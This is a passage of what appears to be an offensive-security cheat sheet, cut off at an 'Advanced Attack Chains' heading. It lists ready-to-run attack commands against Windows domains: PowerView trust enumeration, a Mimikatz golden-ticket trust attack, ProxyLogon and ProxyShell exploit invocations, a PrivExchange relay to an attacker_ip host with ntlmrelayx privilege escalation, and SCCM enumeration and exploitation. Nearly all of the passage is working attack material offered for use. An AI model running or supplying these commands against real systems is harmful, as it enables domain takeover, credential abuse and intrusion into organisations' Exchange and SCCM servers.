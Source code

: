 #### **Windows - Cross-Domain**
```powershell
# PowerView Cross-Domain
Get-DomainTrust -Domain domain.com
Get-DomainUser -Domain foreign.domain.com
Get-DomainForeignUser -Domain foreign.domain.com
Get-DomainForeignGroupMember -Domain foreign.domain.com

# Mimikatz Trust Attack
kerberos::golden /user:Administrator /domain:child.domain.com /sid:S-1-5-21-xxx-xxx-xxx /sids:S-1-5-21-yyy-yyy-yyy-519 /krbtgt:HASH /ticket:trust.kirbi
```

### **📧 Exchange Attacks**

#### **ProxyLogon/ProxyShell**
```bash
# ProxyLogon
python3 proxylogon.py exchange.domain.com Administrator password

# ProxyShell
python3 proxyshell.py -t https://exchange.domain.com -u lowpriv@domain.com -p password -c "whoami"
```

#### **PrivExchange**
```bash
# PrivExchange
python3 privexchange.py -u lowpriv -p password -ah attacker_ip exchange.domain.com
ntlmrelayx.py -t ldap://DC_IP --escalate-user lowpriv
```

### **🖥️ SCCM Attacks**

#### **SCCM Enumeration**
```bash
# SCCMHunter
python3 sccmhunter.py find -dc-ip DC_IP -u lowpriv -p password

# Windows
Get-WmiObject -Class SMS_Site -Namespace root\sms -ComputerName SCCM_SERVER
```

#### **SCCM Exploitation**
```bash
# SharpSCCM
.\SharpSCCM.exe get class-instances SMS_Admin
.\SharpSCCM.exe invoke class-method SMS_Collection RequestRefresh
```

---

## 🎪 **Advanced Attack Chains**
